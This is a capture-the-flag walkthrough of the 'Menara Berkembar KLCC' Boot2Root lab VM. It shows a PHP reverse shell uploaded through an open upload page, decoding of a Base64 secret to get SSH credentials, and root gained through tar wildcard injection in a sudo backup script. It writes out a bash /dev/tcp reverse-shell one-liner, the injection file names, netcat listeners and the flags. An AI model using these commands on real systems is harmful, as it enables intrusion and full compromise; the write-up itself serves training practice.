


# Menara Berkembar KLCC

> Category: Boot2Root ⚔️ 



## 🔗 Overview

_Scanning showed a web server with **Apache**, an open **FTP allowing anonymous login**, and **SSH**. FTP contained only decoy files, but the website **exposed an upload page**, which was **exploited by uploading a PHP reverse shell** to gain a foothold as <code>www-data</code>. **Enumeration** revealed a **hidden Base64-encoded secret** containing <code>john</code>’s SSH credentials. Logging in as <code>john</code> gave access to the user flag. For privilege escalation, <code>john</code> could run <code>/usr/local/bin/backup.sh</code> as root without a password. The script used <code>tar</code> unsafely, allowing a **tar wildcard injection** to execute arbitrary commands as root, leading to a full system compromise._

**⚡ Attack Path in One Line:**

Upload PHP shell → get foothold as <code>www-data</code> → decode secret to get <code>john</code>’s SSH creds → SSH login as <code>john</code> → abuse <code>tar</code> in <code>backup.sh</code> for wildcard injection → escalate to root → read <code>root.txt</code>.


## 🔍 Reconnaisance & Scanning

First of all, let's start with <code>Nmap</code> to scan the running services on the open ports:
```
┌──(kali㉿kali)-[/mnt/…/2025/3108CTF/Boot2Root/Menara Berkembar]
└─$ nmap -sVSC 192.168.211.142 -T4 -Pn -n -vvv -oA menaraberkembarscan
Nmap scan report for 192.168.211.143
Host is up, received arp-response (0.00033s latency).
Scanned at 2025-08-30 22:23:55 +08 for 7s
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.211.129
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rwxr-xr-x    1 111      112            52 Jul 19 01:08 file2.txt
|_drwxr-xr-x    2 111      112          4096 Jul 19 01:10 pub
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e8:a1:55:61:23:5a:7d:28:83:8f:b7:04:54:69:e3:c4 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHs4RCajOspehlPpa2PlRJip76FgyqVsbmGCOrpCgn3vYuDQns53z7ScAV94uqIjH1DrBLMlRaytv4v2AetJbLY=
|   256 93:31:0b:ad:4c:f3:d2:75:79:dc:00:1c:b7:0b:d8:04 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICLdUl4by4AtStc2/Iuq8oMxBwL75N/MmKOwPO3XaRpM
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: KLCC Internal Portal
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 00:0C:29:34:A3:F2 (VMware)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

Then, enumerate the web pages using <code>Gobuster</code>:
```
┌──(kali㉿kali)-[/mnt/…/2025/3108CTF/Boot2Root/Menara Berkembar]
└─$ gobuster dir -u http://192.168.211.143/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.211.143/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 280]
/.htaccess            (Status: 403) [Size: 280]
/.htpasswd            (Status: 403) [Size: 280]
/server-status        (Status: 403) [Size: 280]
/upload               (Status: 301) [Size: 319] [--> http://192.168.211.143/upload/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

Also, I have tried to access the <code>FTP</code> but didn't found anything useful:
```
┌──(kali㉿kali)-[/mnt/…/2025/3108CTF/Boot2Root/Menara Berkembar]
└─$ ftp ftp@192.168.211.143
Connected to 192.168.211.143.
220 (vsFTPd 3.0.5)
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||15363|)
150 Here comes the directory listing.
-rwxr-xr-x    1 111      112            52 Jul 19 01:08 file2.txt
drwxr-xr-x    2 111      112          4096 Jul 19 01:10 pub
226 Directory send OK.
ftp> more file2.txt
Not all towers lead up. Some files are just floors.
ftp> cd pub
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||60414|)
150 Here comes the directory listing.
-rw-r--r--    1 111      112            52 Jul 19 01:10 file2.txt
226 Directory send OK.
ftp> more file2.txt
Not all towers lead up. Some files are just floors.
ftp>
```

Back to the web pages, in the <code>index.php</code> page source:




## ⚔️ Exploitation

Go to the page, upload our **PHP reverse shell script**:


```
┌──(kali㉿kali)-[~/upload]
└─$ nc -lvnp 4444             
listening on [any] 4444 ...
connect to [192.168.211.129] from (UNKNOWN) [192.168.211.143] 33208
Linux klcctower 6.8.0-64-generic #67-Ubuntu SMP PREEMPT_DYNAMIC Sun Jun 15 20:23:31 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
 14:39:25 up 17 min,  0 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU  WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@klcctower:/$ 
```

Upload <code>linpeas</code> to <code>/tmp</code> to ease up the process. From the <code>linpeas</code> output, there's something interesting with the file:

```
www-data@klcctower:/tmp$ ls -la /var/www/html/apache2/mysql/secret
ls -la /var/www/html/apache2/mysql/secret
-rw-r--r-- 1 root root 61 Jul 19 02:09 /var/www/html/apache2/mysql/secret
www-data@klcctower:/tmp$ cat /var/www/html/apache2/mysql/secret
cat /var/www/html/apache2/mysql/secret
W2RiXVxudXNlciA9IGpvaG5cbnBhc3N3b3JkID0ga2xjY1Bvd2VyMjAyNCE=
www-data@klcctower:/tmp$ 
```

After **decode the secret**, we found out the **<code>john</code>'s credentials**:

```
┌──(kali㉿kali)-[/mnt/…/2025/3108CTF/Boot2Root/Menara Berkembar]
└─$ echo 'W2RiXVxudXNlciA9IGpvaG5cbnBhc3N3b3JkID0ga2xjY1Bvd2VyMjAyNCE=' | base64 -d
[db]\nuser = john\npassword = klccPower2024!   
```

Try to <code>SSH</code> to the server as user <code>john</code> and found the <code>user.txt</code>:

```
┌──(kali㉿kali)-[~/upload]
└─$ ssh john@192.168.211.143                
The authenticity of host '192.168.211.143 (192.168.211.143)' can't be established.
ED25519 key fingerprint is SHA256:TMLA93X51EokJ5lP/nClfu1mJF9ugPYDjvYlOsXyTRo.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.211.143' (ED25519) to the list of known hosts.
john@192.168.211.143's password: 
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-64-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat Aug 30 02:48:57 PM UTC 2025

  System load:  0.01              Processes:              244
  Usage of /:   45.6% of 9.75GB   Users logged in:        0
  Memory usage: 49%               IPv4 address for ens33: 192.168.211.143
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

94 updates can be applied immediately.
24 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

2 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Sat Aug  9 13:37:42 2025 from 192.168.168.131
john@klcctower:~$ cat user.txt
```

<details><summary><b>🏳️user.txt</b></summary><b>3108{welcome_to_the_upper_deck}</b></details>


## 💀 Priviliege Escalation

Check <code>sudo</code> permissions:
```
john@klcctower:~$ sudo -l
Matching Defaults entries for john on klcctower:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User john may run the following commands on klcctower:
    (ALL) NOPASSWD: /usr/local/bin/backup.sh
```

Check the content of the file <code>backup.sh</code>:
```
john@klcctower:~$ cat /usr/local/bin/backup.sh
#!/bin/bash

cd /opt/important

tar czf /tmp/backup.tar.gz *
```

We can try to escalate our privileges to <code>root</code> by using the [tar wildcards](https://medium.com/@althubianymalek/linux-privilege-escalation-using-tar-wildcards-a-step-by-step-guide-55771aae063f):

```
john@klcctower:~$ cd /opt/important

john@klcctower:/opt/important$ echo 'bash -i >& /dev/tcp/192.168.211.129/1234 0>&1' > shell.sh

john@klcctower:/opt/important$ touch "/opt/important/--checkpoint-action=exec=sh shell.sh"

john@klcctower:/opt/important$ touch "/opt/important/--checkpoint=1"

john@klcctower:/opt/important$ chmod +x shell.sh
```

Set new listener to receive the connection as <code>root</code>:

```
┌──(kali㉿kali)-[~/upload]
└─$ nc -lvnp 1234                                            
listening on [any] 1234 ...
```

Then, run the script:
```
john@klcctower:/opt/important$ sudo /usr/local/bin/backup.sh
```

Success getting connection as <code>root</code>!

```
┌──(kali㉿kali)-[~/upload]
└─$ nc -lvnp 1234                                            
listening on [any] 1234 ...
connect to [192.168.211.129] from (UNKNOWN) [192.168.211.143] 34346
root@klcctower:/opt/important# cat /root/root.txt
```

<details><summary><b>🏳️root.txt</b></summary><b>3108{you_conquered_the_towers}</b></details>


## 📚 References:

- php-reverse-shell - https://github.com/pentestmonkey/php-reverse-shell

- Linux Privilege Escalation Using <code>tar</code> Wildcards: A Step-by-Step Guide - https://medium.com/@althubianymalek/linux-privilege-escalation-using-tar-wildcards-a-step-by-step-guide-55771aae063f